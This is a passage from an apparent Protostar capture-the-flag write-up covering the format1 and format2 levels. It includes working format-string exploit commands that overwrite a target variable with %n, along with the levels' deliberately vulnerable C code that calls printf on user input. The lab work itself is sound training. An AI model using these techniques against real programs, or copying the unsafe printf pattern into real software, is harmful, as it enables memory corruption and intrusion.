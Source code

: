 Something is off. We aren’t referencing the correct address...

The issue here is **alignment**. To fix this, we pad "00", and we got the correct address:

``` shell
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "00%129$p"')
8000x8049638
```

Nice~ We are refenrencing the correct address. When we write to that address using `%n`, we will get the success message printed:

``` shell
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "00%129$n"')
800you have modified the target :)
```

## Format 2

Description:

>This level moves on from format1 and shows how specific values can be written in memory.<br>
>This level is at /opt/protostar/bin/format2

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Unlike **Format 1**, where our input came from the command line, this time it's read from `stdin`. This means we can’t pass our input as an argument, we need to use a pipe to redirect our input instead.
